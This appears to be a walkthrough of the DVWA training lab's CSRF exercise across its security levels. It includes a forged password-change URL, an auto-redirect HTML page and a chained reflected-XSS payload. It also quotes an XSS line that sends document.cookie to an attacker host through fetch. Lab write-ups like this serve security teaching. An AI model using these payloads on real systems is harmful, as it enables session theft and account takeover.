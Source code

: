 # CSRF

## About
> CSRF is an attack that forces an end user to execute unwanted actions on a web application in which they are currently authenticated. With a little help of social engineering (such as sending a link via email/chat), an attacker may force the users of a web application to execute actions of the attacker's choosing.
> 
> A successful CSRF exploit can compromise end user data and operation in case of normal user. If the targeted end user is the administrator account, this can compromise the entire web application.
> 
> This attack may also be called "XSRF", similar to "Cross Site Scripting (XSS)", and they are often used together.

Source: DVWA Documentation

## Low Security
The functionality of this exercise is a change password mechanism and the objective of the challenge is to make the current user change their own password, without them knowing about their actions, using a CSRF attack.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf1.png?raw=true">
</p>

We also have a Test Credentials button which will send us to other window where we can test the current credentials.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf2.png?raw=true">
</p>

After changing the password, the URL will look like this:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf3.png?raw=true">
</p>

Of course is bad using the password in plaintext as parameter, but just looking at the URL, we can ask ourselves what would happen if someone visit such a URL? Let's try it out!<br/>
For example we craft the following URL: `http://localhost/DVWA/vulnerabilities/csrf/?password_new=password123&password_conf=password123&Change=Change#` and send it to someone.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf4.png?raw=true">
</p>

When the victim visits this URL, the action of changing their password is automatically done without their consent. However, the victim needs to be already logged-in to the web application.<br/>

The source code:
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $current_user = dvwaCurrentUser();
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . $current_user . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 
```

Let's try other exploitation methods for this vulnerability. A URL like the one presented earlier, would look suspicious, so will be better to host a server that is redirecting the user to the one that we need.<br/>
We can ask the A.I. to generate us a HTML code if we don't know how to do this.
```html
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta http-equiv="refresh" content="0;url=http://localhost/DVWA/vulnerabilities/csrf/?password_new=passwordnew&password_conf=passwordnew&Change=Change#">
<title>Redirecting...</title>
</head>
<body>
<script>
window.location.replace("http://localhost/DVWA/vulnerabilities/csrf/?password_new=passwordnew&password_conf=passwordnew&Change=Change#");
</script>
</body>
</html>
```
We will save this file as index.html and start a python server, on port 4445, in the same location with the html file: `python3 -m http.server 4445`.<br/>
Now visiting the URL: `http://127.0.0.1:4445/index.html`, which looks better now, will redirect us to the vulnerable URL that will change the password.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf5.png?raw=true">
</p>

## Medium Security
"For the Medium level challenge, there is a check to see where the last requested page came from. The developer believes if it matches the current domain, it must come from the web application so it can be trusted"<br/>

Source code:
```php
// Checks to see where the request came from
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) { 
```
It's true that we can solve it as earlier and modify the Referer HTTP header with Burp Suite, but this will not work in real life because is happening on the victim machine.<br/>
To solve this we will need to chain the vulnerability with XSS or even File Upload. The request must come from the same server.<br/>
I recommend to check the XSS challenges first.<br/>

We have this payload from the XSS Reflected vulnerability `<img src=x onerror='fetch("http://<IP>/?cookie=" + document.cookie)'>`. This one is used to grab the cookie.<br/>
We will take the CSRF URL and add it here instead.<br/>
When someone clicks the final URL, will be sent to XSS endpoint where the javascript code is executed and the user is redirected to the CSRF URL where the change password method is triggered.<br/>
The problem is that the payload must be encrypted to work properly, so it will help first to add it manually in the XSS Reflected challenge input, to send it, and then to grab the final encrypted URL from the browser.<br/>
Then we can change manually the password and send the URL to someone.

Final payload:`http://localhost/DVWA/vulnerabilities/xss_r/?name=<img+src%3Dx+onerror%3D'fetch("http%3A%2F%2Flocalhost%2FDVWA%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dpassword4%26password_conf%3Dpassword4%26Change%3DChange%23")'>#`

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf6.png?raw=true">
</p>

## High Security
The High level implemented a CSRF token. To exploit this, we need to take somehow the user token and then to use it for the malicious request.<br/>
We can check the form format in the source code:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf7.png?raw=true">
</p>

The main problem is how to grab the user_token because this is available only in the csrf page.
In order to exploit this, we will need to use iframe and File Upload vulnerability.<br/>
First we will create the following exploit and save it as csrf.html:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf8.png?raw=true">
</p>

Author of the script: https://systemweakness.com/hackerman-sergio-csrf-tutorial-dvwa-high-security-level-4cba47f2d695 <br/>

Create an iframe of the csrf path with the id "myFrame" and then use it in the payload() function to take the user_token and send it further.<br/>
The elements are hidden because we don't want to expose this to the target.<br/>
We will set the security to Low in order to upload the file on the server. The main goal is to solve only the csrf challenge on High level, so is not a problem to use Low level for the additional steps.<br/>
Upload the file on the server and change back the level to High.<br/>
Now, we can send the path to the file to our target. When the page is visited, this is happening:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf9.png?raw=true">
</p>

But the password is successfully changed.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf10.png?raw=true">
</p>

We can also chain this vulnerability with the Stored XSS and anyone visiting the page will have the password changed.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf11.png?raw=true">
</p>

## Impossible Security
For the Impossible level, the application requires current password as well as the new password.<br/>
As the attacker does not know this, the site is protected against CSRF style attacks.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/CSRF/!images/csrf12.png?raw=true">
</p>

